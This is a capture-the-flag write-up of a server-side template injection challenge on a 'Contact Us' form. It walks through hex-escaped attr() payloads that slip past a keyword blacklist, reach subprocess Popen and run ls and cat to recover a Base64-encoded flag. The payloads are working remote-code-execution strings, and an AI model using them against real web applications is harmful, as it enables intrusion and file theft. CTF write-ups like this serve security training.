

# Challenge Description
<p align="center">
  
</p>
<br>

# Writeup
In this challenge a "Contact Us" page is given. According to the name of the challenge, we try to find some kind of injection on this page.  
By filling in the fields of the form, we see that the `Name` field is reflected on the page. For example, by entering "Test" in the `Name` field, the following message will be displayed:
```
Dear Test, we have received your message...
```  
Now we enter {{4*7}} in the `Name` field. the following message will be displayed:
```
Dear 28, we have received your message...
```
So it turns out that this field has the `SSTI` vulnerability.

We try different payloads to exploit this vulnerability, but it can be seen that many of the common words used in the SSTI vulnerability payloads are blocked.
For example, by entering `{{''.__class__}}` in the `Name` field, the following message will be displayed:
```
An attack has been detected in this phrase: '.'
```  
By trying different payloads and leaving out the items that are blocked, we can finally get an RCE on the server
(By calling the popen subprocess, which is the 360th index from the list of subprocesses):
```
{{()|attr('\x5f\x5fclass\x5f\x5f')}}
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()}}
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(360)}}
```  
By executing the `ls` command, we see that there is a `help` file in the current path:
```
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(360)('ls',stdout=-1)|attr('communicate')()}}
```  
Open this file by executing the following command:
```
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(360)(('cat','help'),stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}
```  
We will see the following sentence inside the help file:
```
Flag is the last file I put in /opt/tmuctf/ folder...
```  
Since the flag is the last file that is placed in the `/opt/tmuctf/` folder, we run the following command to see the list of files of this folder, from the newest to the oldest.
Certainly the newest file is the flag file.
```
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(360)(('ls','-t','/opt/tmuctf/'),stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}
```  
So we open the newest file with the following command:
```
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(360)(('cat','/opt/tmuctf/gTKF6mHwMC'),stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}
```  
A Base64 encoded string is inside this file:
```
VE1VQ1RGezBoIV95MHVfYnlwNDU1M2RfNGxsX215X2JsNGNrbDE1NyEhIV9fMV81aDB1bGRfaDR2M19iMzNuX20wcjNfYzRyM2Z1bH0=
```  
By decoding This string we get the flag.

The flag:
```
TMUCTF{0h!_y0u_byp4553d_4ll_my_bl4ckl157!!!__1_5h0uld_h4v3_b33n_m0r3_c4r3ful}
```
